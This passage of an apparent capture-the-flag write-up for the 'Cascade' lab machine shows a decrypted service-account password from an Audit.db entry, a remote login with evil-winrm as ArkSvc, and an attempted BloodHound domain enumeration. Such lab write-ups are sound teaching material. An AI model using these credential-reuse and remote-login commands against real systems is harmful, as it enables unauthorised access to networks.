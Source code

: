 ![](MediaFiles/Pasted%20image%2020250702175902.png)
so the decrypted pass now is:
```shell
w3lc0meFr31nd
```

great, we decrypted this encrypted text, remember this was inserted as value along with the user `ArkSvc` in the `Audit.db` file. 
```shell
INSERT INTO Ldap VALUES(1,'ArkSvc','BQO5l5Kj9MdErXx6Q6AGOw==','cascade.local');
```
So its safe to assume that it corresponds to `ArkSvc`, lets try logging in via win-rm, the creds are:
```shell
ArkSvc
w3lc0meFr31nd
```
#### Logging in as `ArkSvc`
```shell
evil-winrm -i cascade.htb -u 'ArkSvc' -p 'w3lc0meFr31nd'
```
successfully logged in, but it seems that we are not done here, we cant access the admin directory.

tried running bloodhound
```shell
bloodhound-python -u 'ArkSvc' -p 'w3lc0meFr31nd'  -d cascade.htb -ns 10.10.10.182 -c All --zip
```
but again it does not work, lets find the info we need from the inside.
